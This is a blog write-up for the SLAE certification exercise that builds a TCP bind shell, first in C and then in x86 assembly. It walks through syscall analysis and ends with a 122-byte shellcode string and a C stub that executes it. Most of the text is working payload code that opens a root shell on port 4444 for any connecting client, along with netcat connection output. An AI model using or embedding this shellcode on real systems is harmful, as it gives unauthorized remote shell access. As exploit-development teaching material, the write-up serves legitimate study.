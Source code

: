 * Assignment 1

This blog post has been created for completing the requirements fo the SecurityTube
Linux Assembly Expert certification:
[[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert][http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert]]

Student ID: SLAE-824

** Requirements

- Create a Shell_Bind_TCP shellcode
  - Bind to a port
  - Execs Shell on incoming connection
- Port number should be easily configurable

** Strategy

My approach to building a tcp bind shell shellcode will be to:

- Create a C program which illustrates the basic functionality
- Analyze the C program system calls to see how the program interacts with the kernel to accomplish its tasks
- Lookup the system calls and see what arguments and structures they take
- Attempt to write some assembly that calls the same system calls in the same order with the same arguments as the C program does
- Debug issues as of course there will be :)

** The C program

From my experience playing around with socket programming in C and
Python, there is a basic formula and group of function calls for
creating clients and servers. Most of them will be useful to us. A
couple won't be applicable to our situation.  The functions we will
find useful are:

- Socket: Open a socket over which we will communicate. Essentially a file descriptor
- Bind: Bind our socket to an interface on our system
- Listen: Tell our system that we are ready to start accepting connections
- Accept: Accept the connection. This is a necessary next step as listen will generally queue up connections in anticipation of them being accepted

Functions we won't worry about:

- Send
- Recv
- Connect
- Close

We won't worry about send or recv because they are used for managing
the flow of data coming in and out and acting accordingly.  We are
instead going to just redirect stdin, stdout, and stderr over the
socket using a function called dup2 and not worry about managing the
flow of data. Since we aren't connecting to another system/server we
don't need to worry about connect. And as for close, it is generally
good practice to close files after your done with them but one leaked
file descriptor won't hurt anyone right? We need to trim the fat!

The final step after we get our redirection going is we just need to
run a program, in our case ~/bin/sh~ and its output and input should
be connected to our socket. We can run this program using ~execve~.

So lets get some code going!

#+NAME: bindshell.c
#+BEGIN_SRC c
  #include <stdio.h>
  #include <netinet/in.h>
  #define PORT 4444

  int main(int argc, char **argv) {
    // Create a socket
    int lsock = socket(AF_INET, SOCK_STREAM, 0);

    // Setup servr side config struct
    // We configure:
    // The family:IPv4
    // The interface: 0.0.0.0 (any)
    // The port: port#
    struct sockaddr_in config;
    config.sin_family = AF_INET;
    config.sin_addr.s_addr = INADDR_ANY;
    // The htons() function converts the
    // unsigned short integer hostshort from host byte
    // order to network byte order.
    config.sin_port = htons(PORT);

    // Bind the created socket with the interface
    // specified in the configuration
    bind(lsock, (struct sockaddr *)&config, sizeof(config));

    // Listen on the socket
    listen(lsock, 0);

    // Accept the incoming connection
    int csock = accept(lsock, NULL, NULL);

    // Redirect stdin, stdout, and stderror
    dup2(csock, 0);
    dup2(csock, 1);
    dup2(csock, 2);

    // Execute a shell
    execve("/bin/sh", NULL, NULL);
};
#+END_SRC

Compiling this code with ~gcc bindshell.c -o bindshell~ gives us a
nice executable. Running the executable with ~./bindshell~ and then
looking at our network using ~netstat -antp~ yields something very
interesting...

#+Name: netstat-output
#+BEGIN_SRC sh
root@blahblah:~# netstat -atp Active Internet connections (servers and
established) Proto Local Address Foreign Address State PID/Program
name tcp *:4444 *:* LISTEN 1657/bindshell
#+END_SRC

Excellent! We have /bin/sh listen bound to a port. If we open up
another terminal and use netcat to connect to port 4444 by running ~nc
-nv -nv 127.0.0.1 4444~ we will get:

#+Name: netcat-output
#+BEGIN_SRC sh
root@blahblah:~# nc -nv 127.0.0.1 4444 (UNKNOWN) [127.0.0.1] 4444 (?)
open id uid=0(root) gid=0(root) groups=0(root)
#+END_SRC

Perfect! We have a tcp bind shell connection. Now we have to convert
this to assembly...

** Analysis of the C program

We can use a tool called ~strace~ to help us learn more about what system calls
our bind shell c program is making. Running ~strace ./bindshell~, connecting
to the bindshell with ~nc -nv 127.0.0.1 4444~ and filtering out the noise
we will see:

#+Name: strace-bindshell
#+BEGIN_SRC sh
root@blahblah:~/shared/SLAE/slae/exercise1# strace ./bindshell
execve("./bindshell", ["./bindshell"], [/* 41 vars */]) = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 0)                            = 0
accept(3,
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/sh", [0], [/* 0 vars */])  = 0
#+END_SRC

Ok. It looks like our code makes some system calls that seem to align with the
functions we know to be part of our socket programming formula along with the
stdin, stdout, and stderror redirection and our ~execve~ call to run /bin/sh.

Lets lookup the system calls to find out their system call numbers. We will
consult ~/usr/include/i386-linux-gnu/asm/unistd_32.h~ for these numbers...

When we consult the listing of syscalls we encounter a bit of confusion. The
only system calls that seem to closely match up with what we saw in our strace
are:

#+Name: syscall-numbers
#+BEGIN_SRC c
#define __NR_execve 11
#define __NR_dup2 63
#define __NR_socketcall 102
#define __NR_mbind 274
#+END_SRC

This is strange. ~execve~ and ~dup2~ look good but there doesn't seem to be
any syscall numbers for socket,listen, or accept. socketcall seems a bit odd
as does mbind so we will have to look into this.

Consulting ~man socketcall~ we learn:

#+Name: man-socketcall
#+BEGIN_SRC c
int socketcall(int call, unsigned long *args);

/**
socketcall() is a common kernel entry point for the socket system
calls.  call determines which socket function to invoke.  args points
to a block containing the actual arguments, which are passed through
to the appropriate call.

User programs should call the appropriate functions by their usual
names.  Only standard library implementors and kernel hackers need to
know about socketcall().
**/

#+END_SRC

So that seems to explain things a little bit. The first argument to
socketcall is a number that represents the actual socket api function
that we want to be calling. Ok... Where do we get the number associated
with each of the api calls?

A little Google search for socketcall call numbers brings us:

[[http://jkukunas.blogspot.com/2010/05/x86-linux-networking-system-calls.html][socketcall call numbers]]

In this blog post we confirm our knowledge about the first argument of
socketcall as well as learn about ~/usr/include/linux/net.h~

Lets checkout that file and see if we can learn the numbers we are looking
for.

#+Name: net.h
#+BEGIN_SRC c
#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	  2		/* sys_bind(2)			*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
// ... snip
#+END_SRC

So it looks like the ~mbind~ syscall we saw earlier might not be
necessary as it looks like there is a ~bind~ syscall number that we
can call with ~socketcall~.  We'll try that out and see how that goes.

Now that we know the syscalls and their corresponding numbers, we need
to figure out their function signatures so that we know what sort of
arguments we need to be passing to them when we invoke them. The
metnod signatures look like the following:


#+Name: signatures
#+BEGIN_SRC c
int socketcall(int call, unsigned long *args);
int socket(int domain, int type, int protocol);
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
int listen(int sockfd, int backlog);
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen)
int dup2(int oldfd, int newfd);
int execve(const char *filename, char *const argv[], char *const envp[]);
// ... snip
#+END_SRC

We also leveraged 2 structs in our C program which we will most likely need
to replicate.

#+Name: netinet/in.h
#+BEGIN_SRC c
#include <netinet/in.h>

// All pointers to socket address structures are often cast to pointers
// to this type before use in various functions and system calls:

struct sockaddr {
    unsigned short    sa_family;    // address family, AF_xxx
    char              sa_data[14];  // 14 bytes of protocol address
};


// IPv4 AF_INET sockets:

struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET, AF_INET6
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};

#+END_SRC


Ok... Using what we have gathered from our analysis lets take an attempt at
writing some assembly!

** Assembly: Take 1

Lets lookup some values of constants:

#+BEGIN_SRC sh
~/usr/src/linux-headers-4.0.0-kali1-common/include/linux/socket.h~
#+END_SRC

#+Name: /usr/src/linux-headers-4.0.0-kali1-common/include/linux/socket.h
#+BEGIN_SRC c
#define AF_INET		2	/* Internet IP Protocol 	*/
#+END_SRC

I had a hard time finding where SOCK_STREAM was defined so we use
a little gcc magic to see what the macro expands to:

#+Name: gcc-macro-expansion
#+BEGIN_SRC sh

root@blahblah:~/shared/SLAE/slae/exercise1# gcc -DN -E bindshell.c | grep SOCK_STREAM
SOCK_STREAM = 1,
int lsock = socket(2, SOCK_STREAM, 0);

#+END_SRC

#+Name: /usr/include/netinet/in.h
#+BEGIN_SRC c
#define INADDR_ANY ((unsigned long int) 0x00000000)
#+END_SRC

#+Name: bindshellasm.asm
#+BEGIN_SRC asm
global _start
;; Note: We will store 2 file descriptors along the way
;; We will put the listening socket file descriptor in edi
;; We will put the connection socket file descriptor in esi

section .text
  _start:
    ;; Create a socket
    ;; int socketcall(int call, unsigned long *args);
    ;; int socket(int domain, int type, int protocol);
    ;; #define SYS_SOCKET	1		/* sys_socket(2)		*/
    ;; Use socketcall to call down to socket
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x1 ; sys_socket syscall number

    ;; Put the socket() args on the stack
    xor ecx, ecx
    push ecx ; INADDR_ANY Accept on any interface 0x00000000
    push ebx ; SOCK_STREAM is the type of socket 1
    push 0x2 ; Protocol AF_INET is the IP Protocol 2

    mov ecx, esp ; Save pointer to args for the socket() call
    int 0x80 ; call sys_socket

    ; Save the returned listening socket file descriptor
    xor edi, edi
    mov edi, eax

    ;; Bind the socket
    ;; Use socketcall to call down to socket
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x2 ; sys_bind syscall number

    ;; Start building the sockaddr_in structure
    ;; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
    ; sin_addr=0 (INADDR_ANY)
    ; INADDR_ANY Accept on any interface 0x00000000
    xor ecx, ecx
    push ecx

    ;; 4444 is 0x115c in little endian. Network byte order is
    ;; Big endian so we swap the byte ordering
    push word 0x5c11 ; sin_port=4444 (network byte order)
    push word bx     ; sin_family=AF_INET (0x2)
    mov ecx, esp     ; move pointer to sockaddr_in structure

    ;; In the initial code we use sizeof to derive the addrlen
    ;; If we print the results of that we get 0x10 which is 16 bytes
    push 0x10 ;addrlen=16
    push ecx  ;struct sockaddr pointer
    push edi  ;sockfd
    mov ecx, esp ;save pointer to bind() args
    int 0x80 ; call sys_bind

    ;; Call listen and prepare for accepting connections
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x4 ; sys_listen syscall number

    ;; Place listen's arguments on the stack
    xor ecx, ecx
    push ecx ; backlog we set to zero
    push edi ; push the socket file descriptor
    mov ecx, esp ; place a pointer to the args in ecx
    int 0x80 ; call sys_listen

    ;; Call accept
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x5 ; sys_accept syscall number
    ;; Place accept's arguments on the stack
    ;; We don't need a peer socket???... so we
    ;; use nulls for addrlen and sockaddr struct
    xor ecx, ecx
    push ecx ; Push NULL (0x00000000) for addrlen
    push ecx ; Push NULL (0x00000000) for sockaddr struct
    push edi ; Push the listening sockets file descriptor
    mov ecx, esp ; place a pointer to the args in ecx
    int 0x80 ; call sys_accept

    ;; Save the returned connection socket file descriptor
    xor ebx, ebx
    mov ebx, eax

    ;; Call dup2 for stdin, stdout, and stderr in a loop
    xor ecx, ecx
    mov cl, 0x2 ;loop counter
  dup2:
    mov al, 0x3f ;dup2
    int 0x80
    dec ecx
    jns dup2

    ;; Call execve
    xor eax, eax
    mov al, 0xb ;execve
    xor ebx, ebx
    push ebx
    push 0x68732f2f ;"sh//"
    push 0x6e69622f ;"nib/"
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
#+END_SRC

When we compile the above shellcode using the compile.sh script below:

#+Name: compile assembly script
#+BEGIN_SRC sh
#!/bin/bash
echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
#+END_SRC

~root@blahblah:~/shared/SLAE/slae/exercise1# ./compile.sh bindshellasm~

And run the shellcode using:

~root@blahblah:~/shared/SLAE/slae/exercise1# ./bindshellasm~

And connect using netcat:

#+Name: compile assembly script
#+BEGIN_SRC sh

#!/bin/bash
root@blahblah:~/shared/SLAE/slae/exercise1# nc -nv 127.0.0.1 4444
(UNKNOWN) [127.0.0.1] 4444 (?) open
id
uid=0(root) gid=0(root) groups=0(root)

#+END_SRC

Bingo! Our assembly works and gives us a tcp bind shell. Now we need to test it
in our c program stub. We will use some command line fu to get the opcodes
from our binary:

#+Name: compile assembly script
#+BEGIN_SRC sh
root@funos:~/shared/SLAE/slae/exercise1# objdump -d ./bindshellasm|grep '[0-9a-f]:'| \
grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '\
|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31"
"\xff\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66"
"\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04"
"\x31\xc9\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x57\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49"
"\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xcd\x80"

#+END_SRC

We add our opcodes to a stub tester C program:

#+Name: shellcode.c
#+BEGIN_SRC C

#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31"
"\xff\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66"
"\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04"
"\x31\xc9\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x57\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49"
"\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xcd\x80";


main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}

#+END_SRC

Compile with: ~gcc shellcode.c -o shellcode~
Run with: ~./shellcode~
Connect with: ~nc -nv 127.0.0.1 4444~


And it works! We get our shell. The shellcode is 122 bytes without really
trying to optimize. We can go back and see if we can do better now.
